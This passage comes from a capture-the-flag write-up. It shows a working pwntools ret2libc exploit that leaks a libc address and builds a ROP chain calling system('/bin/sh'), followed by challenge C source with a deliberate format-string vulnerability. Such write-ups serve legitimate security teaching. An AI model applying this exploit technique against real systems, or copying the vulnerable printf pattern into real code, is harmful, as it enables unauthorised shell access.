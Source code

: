 ```python

leaked_puts = u64(r.recvline().rstrip().ljust(8, b"\x00")) # parse the leaked address
print(f"[+] Leaked address of puts from the GOT entry: {hex(leaked_puts)}")
libc_base_address = leaked_puts - libc.symbols["puts"] # calculate the base address of libc

print(f"[+] Calculated the base address of LIBC: {hex(libc_base_address)}")
libc.address = libc_base_address                # set the libc base address to match the remote process's memory layout


r.recvuntil(b"Again? Where this time? : ")
payload2 = b"A" * 256                           # offset to the RBP
payload2 += b"B" * 8                            # overwrite the RBP
payload2 += p64(pop_rdi_ret)                    # pop rdi gadget
# The libc library already includes the /bin/sh string. 
# We can use the search function to find its address in libc.
# Once we have this address, we can use the same gadget to set it as an argument for the system function.
payload2 += p64(next(libc.search(b"/bin/sh")))  # value of rdi
payload2 += p64(libc.symbols["system"])         # call system("/bin/sh")
r.sendline(payload2)
r.recvuntil(b"ok, let's go!\n\n")
# r.interactive()                               # uncomment for an interactive shell
r.sendline(b"cat flag.txt")
print(r.recvline().decode())
r.close()
```

## Not Specified

For the `Not Specified` challenge, we are provided with the following reference code:

```c
int win(){
    system("/bin/sh\0");
}

int main(){
    setup();
    banner();
    char *username[32];
    puts("Please provide your username\n");
    read(0,username,sizeof(username));
    puts("Thanks! ");
    printf(username);
    puts("\nbye\n");
    exit(1);
}
```

As before, the binary declares an array and reads our input into it. But this time it only reads a number of bytes equal to the size of the array, so there is no buffer overflow vulnerability.
